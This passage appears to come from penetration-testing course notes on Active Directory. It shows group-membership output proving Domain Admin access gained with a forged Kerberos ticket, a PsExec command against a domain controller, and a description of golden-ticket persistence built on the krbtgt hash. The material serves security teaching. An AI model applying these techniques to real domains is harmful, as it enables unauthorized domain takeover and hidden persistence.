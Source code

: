 ```
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                      Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
CORP\Domain Admins                          Group            S-1-5-21-1987370270-658905905-1781884369-512 Mandatory group, Enabled by default, Enabled group
CORP\Group Policy Creator Owners            Group            S-1-5-21-1987370270-658905905-1781884369-520 Mandatory group, Enabled by default, Enabled group
CORP\Schema Admins                          Group            S-1-5-21-1987370270-658905905-1781884369-518 Mandatory group, Enabled by default, Enabled group
CORP\Enterprise Admins                      Group            S-1-5-21-1987370270-658905905-1781884369-519 Mandatory group, Enabled by default, Enabled group
CORP\Denied RODC Password Replication Group Alias            S-1-5-21-1987370270-658905905-1781884369-572 Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level        Label            S-1-16-12288   
```

We have an interactive command prompt on the domain controller and notice that the **whoami** command reports us to be the user _jen_, which is now part of the Domain Admin group
+ Listing group memberships shows that we are now a member of multiple powerful groups including the Domain Admins group

Note that by creating our own TGT and then using PsExec, we are performing the _overpass the hash_ attack by leveraging Kerberos authentication as we discussed earlier in this Module
+ If we were to connect PsExec to the IP address of the domain controller instead of the hostname, we would instead force the use of NTLM authentication and access would still be blocked as the next listing shows
```
C:\Tools\SysinternalsSuite> psexec.exe \\192.168.50.70 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldn't access 192.168.50.70:
Access is denied.
```

In this section, we have demonstrated the golden ticket technique as a persistence mechanism
+ By obtaining the NTLM hash of the _krbtgt_ user, we can issue domain-administrative TGTs to any existing low-privileged account and thus, obtain inconspicuous legitimate access to the entire AD domain
